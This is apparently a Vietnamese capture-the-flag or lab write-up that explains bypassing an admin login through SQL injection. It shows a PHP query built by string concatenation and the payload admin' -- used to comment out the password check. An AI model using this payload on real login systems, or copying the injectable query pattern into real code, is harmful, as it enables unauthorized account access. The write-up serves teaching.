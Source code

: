 # SQL Injection 1 
# Mục tiêu: Login as admin
# 🔥 Phân tích lỗ hổng
Đoạn SQL này:
```
$sql = "SELECT username FROM users WHERE username='$username' AND password='$password'";
```
nếu `$username = 'admin' -- ` và `$password = 'abc'`, thì câu SQL thực thi sẽ là:
```
SELECT username FROM users WHERE username='admin' -- ' AND password='abc'
```
Do `--` là comment trong SQL, phần `AND password='abc'` sẽ bị bỏ qua. Vậy thực chất truy vấn trở thành:
```
SELECT username FROM users WHERE username='admin'
```
→ Trả về tài khoản admin mà không cần biết mật khẩu.
# Khai Thác
Thành công `admin' -- `
* tại sao là `'` chứ ko phải là `"`
```
echo "It's working"; // OK
echo 'It\'s working'; // Cần escape '
```